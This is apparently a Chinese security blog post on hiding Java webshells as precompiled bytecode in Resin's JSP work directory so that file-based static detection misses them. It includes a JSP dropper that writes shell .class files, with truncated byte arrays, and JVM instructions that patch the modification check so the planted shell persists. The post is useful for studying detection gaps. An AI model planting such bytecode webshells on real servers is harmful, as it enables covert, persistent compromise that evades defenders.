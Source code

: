 ```yaml
---
layout: post
title: 利用Java Binary Webshell对抗静态检测
description: "Java Webshell Hidden in JSP Pages"
tags: [java,webshell,servlet]
image:
  background: triangular.png
---
```


## 0x01 背景

Webshell一般是指以服务端动态脚本形式存在的一种网页后门。在入侵检测的过程中，检测Webshell无疑是一大重点。比较常见的检测手法有：

1. 文件内容检测（静态检测）
2. 文件行为检测（动态检测）
3. 网络异常流量分析
4. ......

其中，静态检测是比较简单有效的检测Webshell的手段之一。根据Webshell的文件特征建立异常模型，并使用大量的Webshell样本对模型进行训练，通过诸如异常函数、关键代码以及文件内容与普通业务代码的相似度等等关键点来进行分析检测。

然而在笔者工作中却发现，如果Webshell脱离了服务端脚本页面形式的存在，基于文件特征的静态检测又将面临怎样的困境？我们不妨一起来看看。

## 0x02 JavaWeb应用

在Java Web应用中，Servlet是Java语言实现的一个接口，用于编写服务端程序[^1]。Servlet程序代码会预先编译成.class文件，部署在Java容器中，响应用户各种协议的请求，大多数情况下基于HTTP协议，包括动态生成网页内容等等。但是Servlet由Java代码编写，不能有效地区分页面的展示和处理逻辑，导致Servlet代码非常混乱，而用Java服务器页面（JSP）的出现，可以让程序员把展现层和数据层很好的区分管理起来。
    
JSP作为HttpServlet的扩展，使用HTML的书写格式，在适当的地方加入Java代码片段，从而动态生成页面内容。JSP在首次被访问时，JSP应用容器(应用服务器中用于管理Java组件的部分)将其转换为Java Servlet代码，并编译成.class字节码文件并执行。而下次该JSP文件被访问时，服务器将直接调用Servlet进行处理，除非JSP文件被修改。

比如，在Apache Tomcat中，它提供了一个Jasper编译器用以将JSP编译成对应的Servlet。在JSP文件被访问后，在workDir生成对应的servlet源码与编译后的.class字节码文件。

![tomcat-work-dir]({{ site.url }}/images/articles/201605/tomcat-work-dir.png)

JSP编译生成的.class文件默认存放在`$CATALINA_BASE/work`下，存放路径也可以通过Server.xml等配置文件中的Host标签的workDir属性进行配置[^2]：

{% highlight xml %} 
<Host appBase="webapps" autoDeploy="true" name="localhost" unpackWARs="true" 
    workDir="/home/tomcat_run_user/other_work_dir">

....

</Host>
{% endhighlight%}   

**JSP文件再次被访问时，Tomcat会直接调用已编译好的字节码文件。当文件被修改，Tomcat会重新解析JSP文件，生成Servlet代码并编译执行。当文件被删除时，Tomcat返回`404 Not Found`。**

![tomcat-404]({{ site.url }}/images/articles/201605/tomcat-404.png)

而在在配置文件`$CATALINA_BASE/conf/web.xml`中，当Jasper运行在开发模式下时，我们可以配置modificationTestInterval参数，控制Tomcat在一定时间之内不检查JSP文件的修改状态[^3]。

设想，如果可以关闭Java容器对JSP文件修改状态的检查，是否可以将恶意代码存放在workDir的.class字节码中，并通过JSP形式持久访问？

## 0x03 Resin

我们注意到了另一款非常流行且性能优良的企业级应用服务器——Resin。Resin同样提供了Servlet和JSP运行引擎。

可以看到默认情况下，初次访问JSP后，Resin会在./WEB-INF/work/_jsp目录下生成Servlet源码和编译后的.class字节码文件。

{% highlight bash %}
└── webapps
    └── ROOT
        ├── index.jsp
        └── WEB-INF
            ├── classes
            ├── tmp
            ├── web.xml
            └── work
                └── _jsp
                    ├── _index__jsp.class
                    ├── _index__jsp.java
                    ├── _index__jsp.java.smap
                    └── _index__jsp$TagState.class


{% endhighlight %}


与Apache Tomcat不同的是，**Resin生成并编译Servlet之后，可以在JSP文件被删除的情况下，正常提供访问。**
查看Resin生成的JSP对应的Servlet源码发现，生成的代码内包含了检查JSP文件修改状态相关方法：`_caucho_isModified()`。

我们来看看这部分源码中的关键逻辑:

{% highlight java %}
public class _index__jsp extends com.caucho.jsp.JavaPage
{
  private boolean _caucho_isDead;
  private boolean _caucho_isNotModified;

  protected void _caucho_setNeverModified(boolean isNotModified)
  {
    _caucho_isNotModified = true;
  }

  public boolean _caucho_isModified()
  {
    if (_caucho_isDead)
      return true;

    if (_caucho_isNotModified)
      return false;

    if (com.caucho.server.util.CauchoSystem.getVersionId() != -8002497470487589159L)
      return true;

    return _caucho_depends.isModified();
  }

    public void init(com.caucho.vfs.Path appDir)
    throws javax.servlet.ServletException
  {
    ...
    depend = new com.caucho.vfs.Depend(appDir.lookup("index.jsp"), -122100326514986033L, false);
    _caucho_depends.add(depend);
    loader.addDependency(depend);
  }

    public void destroy()
  {
      _caucho_isDead = true;
      super.destroy();
    ...
  }

  ...
}

{% endhighlight %}

Servlet启动时，Resin会调用init()方法，结束时会调用destroy()方法[^4]。init()方法中实例化的Depend类用于检查文件修改，
这里调用的Depend构造函数中，第三个参数标志了在JSP文件被删除的情况下的处理逻辑。

`public Depend(Path source, long digest, boolean requireSource)`

requireSource为True时，如果JSP文件被删除则服务器返回404。默认为false，所以当已编译的JSP文件被删除时，Resin并不会判定该JSP页面被修改，依然会执行对应的字节码。

可以看到，Resin判断一个JSP文件是否修改的逻辑为

![is_modified]({{ site.url }}/images/articles/201605/is_modified.png)

当web.xml中配置autoCompile属性为false时，Resin会关闭对JSP文件的自动编译，调用_caucho_setNeverModified()方法，从而不会检查JSP文件修改状态。

web.xml
{% highlight xml%}
<web-app>
        <jsp auto-compile="false"></jsp>
</web-app>
{% endhighlight %}

## 0x04 Binary JSP Webshell

由于Resin这些特性，我们可以用JSP将Webshell字节码写入对应的路径下，即可得到一个二进制形式存在的JSP Webshell。这个Resin自动编译存放的代码目录路径可以通过`<work-dir>`标签自定义配置，默认为`WEB-INF/work`目录[^5]。如：

{% highlight xml %}
{% raw %}
<host id="test.com.cn">
<web-app id="/">
<app-dir>pathto\test</app-dir>
<work-dir>pathto\WEB-INF\work_sc</work-dir>
<temp-dir>pathto\WEB-INF\tmp_sc</temp-dir>
......
</web-app> 
</host>
{% endraw %}
{% endhighlight %}

如：默认配置下，利用JSP写入二进制字节码Webshell：
{% highlight java %}

    <%@ page import="java.io.*" %>
    <%
    FileOutputStream file_out=new FileOutputStream("./webapps/ROOT/WEB-INF/work/_jsp/_comm__jsp.class");   
    FileOutputStream file_out_tag=new FileOutputStream("./webapps/ROOT/WEB-INF/work/_jsp/_comm__jsp$TagState.class");  

    byte[] _jsp_class = {(byte)0xca,(byte)0xfe,(byte)0xba,......};
    byte[] _jsp_tag_class = {(byte)0xca,(byte)0xfe,(byte)0xba,(byte)0xbe,......};

    file_out.write(_jsp_class,0,_jsp_class.length);
    file_out_tag.write(_jsp_tag_class,0,_jsp_tag_class.length);

    file_out.close();
    file_out_tag.close();

    %>

{% endhighlight %}

利用脚本中Webshell的字节码内容可以在本地Resin服务器环境中编译获得，但是由于编译和运行的Resin版本不一致会被判定JSP文件已修改，从而被重新编译，这不是我们想看到的。如0x03小节中所说，Resin中判断JSP是否修改的逻辑包含在JSP对应的Servlet代码中，于是我们可以篡改这部分字节码中的逻辑，使得`_caucho_isModified()`函数永远返回false，JVM指令如下：

{% highlight jvm %}
aload_0
getfield _jsp/_comm__jsp/_caucho_isDead Z
ifeq 6
iconst_0
ireturn
aload_0
getfield _jsp/_comm__jsp/_caucho_isNotModified Z
ifeq 11
iconst_0
ireturn
invokestatic com/caucho/server/util/CauchoSystem/getVersionId()J
ldc2_w 431137076814425723
lcmp
ifeq 17
iconst_0
ireturn
aload_0
getfield _jsp/_comm__jsp/_caucho_depends Lcom/caucho/make/DependencyContainer;
iconst_0
ireturn
{% endhighlight %}

测试效果如下：利用write_binary_shell.jsp文件，将字节码webshell写入对应的目录下，即可通过访问对应的JSP文件来访问Webshell。
由于篡改了相关的判断逻辑，无论Web是否存在同名JSP文件，Resin依然会优先解析到该字节码Webshell。

{% highlight bash %}
├── webapps
│   └── ROOT
│       ├── index.jsp
│       ├── WEB-INF
│       │   ├── classes
│       │   ├── tmp
│       │   ├── web.xml
│       │   └── work
│       │       └── _jsp
│       │           ├── _comm__jsp.class
│       │           └── _comm__jsp$TagState.class
│       └── write_binary_shell.jsp
{% endhighlight %}

![poc]({{ site.url }}/images/articles/201605/poc.png)

## 0x05 References

[^1]:https://zh.wikipedia.org/wiki/Java_Servlet
[^2]:https://tomcat.apache.org/tomcat-8.0-doc/config/host.html
[^3]:https://tomcat.apache.org/tomcat-8.0-doc/jasper-howto.html
[^4]:http://www.caucho.com/resin-3.1/doc/servlet.xtp
[^5]:http://www.caucho.com/resin-4.0/admin/config-el-ref.xtp#work-dir













